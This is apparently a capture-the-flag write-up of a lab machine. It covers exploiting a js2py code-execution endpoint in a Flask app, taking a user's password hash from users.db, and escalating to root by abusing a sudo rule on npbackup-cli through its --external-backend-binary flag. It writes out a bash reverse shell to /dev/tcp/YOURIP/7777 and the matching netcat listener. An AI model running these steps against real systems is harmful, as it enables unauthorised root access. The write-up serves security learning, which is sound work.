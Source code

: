 In js2py, because of positional args mapping, you had to pass a lot of null or -1 placeholders just to reach the shell=True parameter at the correct position.

Once I got a hit, I was not able to access **Marco** but I did have access to `/app`. 
I checked the directories and I saw `/instance` which then led me to `users.db` where I was able to get the hashed password for **Marco**.

# Root 
Once I was in as **Marco** I was then able to get the first user flag.
I checked right away for `sudo -l` and showed I execute /usr/local/bin/npbackup-cli with root privileges.

```
(ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
```

* `(ALL : ALL)` → you can run this command as **any user** and as **root**.
* `NOPASSWD` → you **don’t need to enter a password**.
* `/usr/local/bin/npbackup-cli` → this is the **binary you’re allowed to run as root**.

```bash
/usr/local/bin/npbackup-cli --help
```

```bash
sudo /usr/local/bin/npbackup-cli --help


```

This is gave a lot of inormation of what I will be using specifically for a shell to get to root. 
I used flags like `--dump` `--raw` and did not give me much, as if it was blocked so looking back, I and focusing on shell:

--external-backend-binary EXTERNAL_BACKEND_BINARY

Some backup CLIs let you specify an external binary. Running a binary you control as root is a direct path to root shell.

Commands:
`vim rvshell` that had:

`#!/bin/bash
bash -c 'bash -i >& /dev/tcp/YOURIP/7777 0>&1'`

Then, `chmod +x rvshell`

Started a `nc -lvnp 7777` on my host machine.

Final command, made sure to read `--help` and see what flags can be used:
`sudo /usr/local/bin/npbackup-cli --config npbackup.conf --external-backend-binary=/home/marco/rvshell -b --repo-name default`.

Here I was able to get a reverse shell on my listening port and access root and get the final flag. 


✅ Summary of My Exploit Path

I discovered a Flask app exposing a /run_code endpoint executing arbitrary JS via js2py.
